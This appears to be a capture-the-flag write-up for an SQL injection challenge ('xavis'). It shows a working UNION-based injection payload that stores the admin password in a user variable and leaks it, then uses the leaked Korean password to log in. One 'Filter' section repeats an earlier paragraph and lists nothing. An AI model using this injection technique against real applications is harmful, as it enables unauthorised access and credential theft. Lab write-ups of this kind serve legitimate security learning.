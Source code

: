```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 19
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/fd332084-b8f3-4deb-ad35-fedd5d2021f5)

We are provided with the SQL query:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='{$_GET[pw]}'
```

For this challenge, the password is in Korean. There are two ways of solving this challenge.

## Filter

The code filters the following:

For this challenge, the password is in Korean. There are two ways of solving this challenge.

1. Assigning the password to a variable and leaking the variable
2. Blind SQL Injection

## Assigning the password a variable and leaking the variable

If we provide the following URI parameter:

```
?pw=' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/6bad479f-f987-4106-bf7f-cd348902bf6c)

As we can see, the password which was stored in the `adminpassword` variable has been leaked.

```
우왕굳
```

We can now provide the following URI:

```
?pw=우왕굳
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='우왕굳'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/30da5ecc-5dec-4a67-9d19-509490f2753f)
